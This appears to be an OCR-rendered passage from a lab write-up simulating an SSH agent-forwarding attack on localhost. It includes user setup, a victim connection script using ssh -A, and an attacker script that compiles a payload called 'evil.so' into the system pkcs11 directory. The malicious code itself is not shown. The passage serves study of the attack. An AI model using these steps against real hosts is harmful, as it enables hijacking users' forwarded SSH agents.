#### User Account Creation

```bash
# As main user
sudo adduser victim
sudo adduser attacker
```

#### SSH Key Setup for Agent Forwarding

```bash
# As victim user
ssh-keygen -t rsa -f ~/.ssh/id_rsa -N ""
ssh-copy-id attacker@localhost
```

### 4.2 Simulation Scripts and Implementation

#### Victim's Connection Script (`new-connection.sh`)

```bash
#!/bin/bash

# Kill any existing agent
eval $(ssh-agent -k) > /dev/null 2>&1

# Start a new agent and add key
eval $(ssh-agent -s)
ssh-add ~/.ssh/id_rsa

# Connect to attacker with agent forwarding
ssh -A attacker@localhost
```

#### Attacker's Payload Builder (`build-evil.sh`)

```bash
#!/bin/bash
set -e

C_SRC="evil.c"
RUST_DIR="rust_evil"
OUTPUT_PATH="/usr/lib/x86_64-linux-gnu/pkcs11/evil.so"

function build_c() {
  sudo gcc -fPIC -shared -o "$OUTPUT_PATH" "$C_SRC"
  echo "C payload built at $OUTPUT_PATH"
}

function build_rust() {
  cd "$RUST_DIR"
  cargo build --release
  cd -
  SO_FILE=$(find "$RUST_DIR/target/release" -name "lib*.so" | head -n 1)
  sudo cp "$SO_FILE" "$OUTPUT_PATH"
  rm -rf "$RUST_DIR/target"
  echo "Rust payload built at $OUTPUT_PATH"
}

case "$1" in
  --c) build_c ;;
  --rust) build_rust ;;
  *) echo "Usage: $0 --c | --rust" && exit 1 ;;
esac
```

